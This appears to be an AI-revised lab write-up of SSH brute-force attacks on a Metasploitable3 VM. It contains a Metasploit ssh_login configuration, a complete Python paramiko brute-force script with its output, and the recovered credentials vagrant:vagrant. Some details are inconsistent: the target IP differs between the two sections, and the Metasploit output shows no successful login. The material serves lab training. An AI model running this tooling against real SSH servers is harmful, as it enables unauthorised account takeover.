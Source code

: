 Here’s the revised content with the outputs placed in distinguished boxes for better clarity:

---

# Phase 1: SSH Service Compromise  

---

## Overview  
This phase demonstrates SSH brute force attacks against Metasploitable3 using:  
- Metasploit Framework (`ssh_login` module)  
- Custom Python brute force script  
- Successfully identified vulnerable credentials:  
  `vagrant:vagrant`  

---

## Attack Methodologies  

### 1. Metasploit Brute Force Attack  
#### Configuration:  
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOST 192.168.56.102
set RPORT 22
set USER_FILE /absolute/path/usernames.txt
set PASS_FILE /absolute/path/passwords.txt
set THREADS 3
run
```

#### **Output:**  
```
[*] 192.168.56.102:22 - Starting brute force
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### **Key Findings:**  
- Required absolute paths for credential files  
- Case-sensitive commands (e.g., `set`, not `SET`)  
- Full scan of the target system successfully completed  

---

### 2. Custom Python Brute Force Script  

#### Script: `compromise.py`  
```python
import paramiko
import time

TARGET_IP = "192.168.56.103"
PORT = 22
USERNAME_FILE = "username.stxt"
PASSWORD_FILE = "password.stxt"
COMMAND_TO_RUN = "ip a"

def attempt_login(hostname, port, username, password):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(hostname=hostname, port=port, username=username, password=password, timeout=5)
        print(f"[+] Successfully logged in as {username}:{password} on {hostname}")
        return client
    except paramiko.AuthenticationException:
        print(f"[-] Login failed for {username}:{password} on {hostname}")
    except paramiko.SSHException as e:
        print(f"[-] SSH error connecting to {hostname}: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")
    return None

def execute_command(client, command):
    try:
        stdin, stdout, stderr = client.exec_command(command)
        output = stdout.read().decode().strip()
        error = stderr.read().decode().strip()
        if output:
            print(f"[+] Command executed successfully. Output:\n{output}")
        if error:
            print(f"[-] Error executing command:\n{error}")
    except Exception as e:
        print(f"[-] Error executing command: {e}")

def main():
    usernames = []
    passwords = []

    try:
        with open(USERNAME_FILE, 'r') as f:
            usernames = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {USERNAME_FILE} not found.")
        return

    try:
        with open(PASSWORD_FILE, 'r') as f:
            passwords = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {PASSWORD_FILE} not found.")
        return

    for username in usernames:
        for password in passwords:
            print(f"[+] Trying {username}:{password} on {TARGET_IP}:{PORT}")
            ssh_client = attempt_login(TARGET_IP, PORT, username, password)
            if ssh_client:
                print("[+] Proof of Concept:")
                execute_command(ssh_client, COMMAND_TO_RUN)
                ssh_client.close()
                print("[+] Connection closed.")
                return

if __name__ == "__main__":
    main()
```

#### **Execution:**  
```bash
python3 compromise.py
```

#### **Output:**  
```
[+] Successfully logged in as vagrant:vagrant
```

---

## Discovered Credentials  
- **Username:** `vagrant`  
- **Password:** `vagrant`  

---

## Requirements  

- Metasploit Framework (v6.3+)  
- Python 3.8+  
- Paramiko (Install via `pip install paramiko`)  

--- 

Let me know if you need further refinements!
